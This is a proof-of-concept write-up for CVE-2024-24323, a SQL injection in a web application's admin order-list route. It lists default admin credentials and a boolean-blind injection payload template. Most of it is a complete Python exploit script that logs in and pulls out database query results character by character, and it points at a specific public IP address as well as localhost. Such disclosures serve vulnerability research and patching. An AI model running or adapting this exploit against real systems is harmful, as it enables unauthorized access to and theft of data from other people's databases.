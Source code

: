 # CVE-2024-24323

## Attack Process
1. Visit website `https://47.119.164.125/` or locally hosted site, `http://127.0.0.1:9527`, that you've set up yourself.
2. Be admin via admin123/admin123
3. SQLi will occur on the parameters `nickname`, `consignee`, `orderSN`, and `orderStatusArray` of the route `/admin/order/list`. Use payload which is similar to `%' and ascii(substr(({sql}),{num},1))>{mid} and '%' = '` where {sql} is the SQL query statement being executed.
4. Here is an example of EXP via parameter `nickname` .


## EXP
```
import requests

basic_url = "https://47.119.164.125"
# basic_url = "http://127.0.0.1:9527"

# the SQL query statement being executed
sql = "user()"

def bool_blind(sql, num):
    low = 32
    high = 128
    mid = (low+high)//2
    while low < high:
        route_path = f"/admin/order/list?page=1&limit=1&sort=add_time&order=desc&start=&end=&nickname=%' and ascii(substr(({sql}),{num},1))>{mid} and '%' = '"
        r = s.get(
            basic_url+route_path,
            verify=False
        )
        print(len(r.text))
        if len(r.text) < 100:
            high = mid
        else:
            low = mid+1
        mid=(low+high)//2
    if mid <= 32 or mid >= 127:
        return chr(mid)
    return chr(mid)

s = requests.Session()
# login
login_path = "/admin/auth/login"
r = s.post(
    basic_url+login_path, 
    json={
        "username": "admin123",
        "password": "admin123",
        "code": ""
    },
    verify=False
)
for l in range(20):
    route_path = f"/admin/order/list?page=1&limit=20&sort=add_time&order=desc&start=&end=&nickname=%' and length({sql})>{l} and '%' = '"
    print(basic_url + route_path)
    r = s.get(
        basic_url + route_path,
        verify=False
    )
    if len(r.text) < 100:
        break
print(l)

res = ""
for i in range(l+1):
    res += bool_blind(sql,i)
print(res)
```

